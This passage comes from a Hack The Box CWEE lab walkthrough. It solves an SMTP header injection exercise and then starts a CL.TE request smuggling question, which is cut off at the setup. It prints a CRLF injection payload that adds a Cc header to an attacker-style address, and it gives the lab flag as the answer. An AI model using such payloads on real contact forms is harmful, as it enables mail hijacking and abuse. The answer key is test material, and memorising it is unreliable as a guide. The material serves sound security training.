 ![[HTB Solutions/CWEE/z. images/fb698ff08e30f0ee4de48041f691db54_MD5.jpg]]

However, when checking the email inbox over `http://mail.smtpinjection.htb:STMPO/`, students will notice that no copy of the email has been received:

![[HTB Solutions/CWEE/z. images/835b4132c9cc53b1015894ac1ca066ae_MD5.jpg]]

Most probably, the application is appending additional data to the value of the injection point (i.e., the username field's value, which matches the first header, `Cc`), thus invalidating the email address `evil@attacker.htb`. To circumvent this, students need to inject an additional dummy header after the `Cc` header:

Code: http

```http
name=ryansam%40gmail.com%0d%0aCc:+evil@attacker.htb%0d%0aDoesNotExist:+True&phone=123&message=Hello+Admin
```

![[HTB Solutions/CWEE/z. images/56125437e4283c363f75c3850354c90a_MD5.jpg]]

Checking the email inbox over `http://mail.smtpinjection.htb:STMPO/`, students will notice that this time an email has been received:

![[HTB Solutions/CWEE/z. images/f8181398496801ec1becbfc9c2d3f7f1_MD5.jpg]]

Opening it, students will find the flag `HTB{ba4686506d821d07f74ce3b1e0906f4f}`:

![[HTB Solutions/CWEE/z. images/4f27db742572275105a7eb407ff4ee1e_MD5.jpg]]

(In case students are curious to know what data/string the web application is appending to the `Cc` header (or, more precisely, the username value used in the form), they can check the `Source` tab, to find out it is appending the domain name `@smtpinjection.htb`):

![[HTB Solutions/CWEE/z. images/64c7aa984ba1cc56099398b9f4e803b1_MD5.jpg]]

Answer: `HTB{ba4686506d821d07f74ce3b1e0906f4f}`

# CL.TE

## Question 1

### "Try to use what you learned in this section to exploit request smuggling to force the admin user to reveal the flag."

After spawning the target machine, students need to visit its website's root webpage and click on the "Admin Area" button:

![[HTB Solutions/CWEE/z. images/d478c4c6624430d4ac7c677506fa4532_MD5.jpg]]

When intercepting the request sent after clicking on the `Reveal Flag` button, students will notice that it is making a GET request to the URL `/admin.php?reveal_flag=1`:
